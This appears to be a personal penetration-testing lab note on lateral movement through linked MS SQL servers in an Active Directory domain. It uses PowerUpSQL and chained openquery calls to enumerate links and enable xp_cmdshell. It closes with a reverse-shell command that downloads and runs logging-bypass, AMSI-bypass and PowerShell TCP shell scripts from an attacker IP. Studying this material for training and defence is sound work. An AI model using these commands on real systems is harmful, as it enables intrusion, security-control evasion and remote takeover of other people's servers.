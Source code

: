 MS SQL servers are generally deployed in plenty in a Windows domain

SQL Servers provide very good options for lateral movement as domain users can be mapped to database roles.

#### [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

```powershell
 . .\PowerUpSQL-master\PowerUpSQL.ps1
```
###### Discovery (SPN Scanning) - find all mssql SPNs (default for mssql servers)
```powershell
Get-SQLInstanceDomain
```

###### Check Accessibility 
```powershell
Get-SQLConnectionTestThreaded

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

###### Gather Information
```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

>**Note:** Review `ServiceName`, `AuthenticationMode`, `IsSysadmin` and `ActiveSessions`
#### Database Links
A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources. In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures

> **Note**: Database links work even across forest trusts. **Forest security boundaries can't even stop it**

[^1]![[Pasted image 20250521200749.png]]
###### Search for Database Links
```powershell
Get-SQLServerLink -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201158.png]]


> [!NOTE] **NOTE**
> Connect to host using the `HeidiSQL` client


 Manual
```sql
select * from master..sysservers
```

###### Enumerating Database Links 
Jesus lol
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

![[Pasted image 20250521201531.png]]

Manual - The `Openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

Manual - `Openquery()` queries can be chained to access links within links (nested
links)
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

###### Executing Commands

> [!NOTE] **Note**
>  If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled like so:
> ```sql
> EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"

Run commands using crawler
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "execmaster..xp_cmdshell 'cmd /c set username'" -QueryTarget eu-sql
```

Reverseshell
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec  master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing  http://172.16.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.X/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sqlx
```

Manual
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```


